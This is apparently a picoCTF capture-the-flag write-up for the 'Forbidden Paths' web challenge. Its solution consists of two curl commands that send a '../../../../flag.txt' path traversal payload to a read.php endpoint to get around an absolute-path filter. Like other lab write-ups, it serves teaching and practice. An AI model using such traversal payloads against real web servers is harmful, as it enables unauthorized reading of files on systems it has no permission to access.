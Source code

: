 # [Forbidden Paths [Web Exploitation] [200 Points] #

## Description ##
Can you get the flag?

We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. 

Can you get past the filter to read the flag?

Here's the website.

## Hints ##

## Solution ##

### Step 1: Description ###
![](images/webpage.png)

![](images/webpage_flag.png)


    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php

    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php | grep -oE 'picoCTF{.*}' | tee >(xsel -b)

![](images/webpage_retrieveFlag.png)

